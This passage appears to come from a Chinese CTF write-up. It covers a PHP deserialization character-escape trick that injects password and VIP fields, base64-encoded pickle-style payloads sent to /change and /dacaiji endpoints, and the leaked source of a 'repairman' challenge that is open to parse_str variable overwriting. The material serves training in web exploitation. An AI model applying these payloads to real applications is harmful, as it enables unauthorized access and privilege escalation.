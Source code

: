 ```
输出结果：
object(user)#2 (3) {
  ["username"]=>
  string(115) "hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:""
  ["password"]=>
  string(6) "123456"
  ["isVIP"]=>
  int(1)
}
```

参考资料：[PHP反序列化字符逃逸详解](https://baijiahao.baidu.com/s?id=1708960496312008602&wfr=spider&for=pc)

#### payload

```
name：new_rookie
base64编码：bmV3X3Jvb2tpZQ==

newname：
new_rookie
sVid
I0
sb.
base64编码：bmV3X3Jvb2tpZQpzVmlkCkkwCnNiLg==

/change?name=bmV3X3Jvb2tpZQ==&newname=bmV3X3Jvb2tpZQpzVmlkCkkwCnNiLg==
/dacaiji?name=new_rookie

注意：name不可以随便给，题目环境的name是new_rookie
```

## repairman

```
URL：
http://cc7958e5-7762-44cc-8332-7fd11130ad36.challenge.ctf.show/index.php?mode=1

页面内容：
hello,the user!We may change the mode to repaie the server,please keep it unchanged
```

#### 题目分析

根据题目提示，让mode=0，发现回显了源码

```php
Your mode is the guest!hello,the repairman! <?php
error_reporting(0);
session_start();
$config['secret'] = Array();
include 'config.php';
if(isset($_COOKIE['secret'])){
    $secret =& $_COOKIE['secret'];
}else{
    $secret = Null;
}

if(empty($mode)){
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query']);
    if(empty($mode)) {
        echo 'Your mode is the guest!';
    }
}
```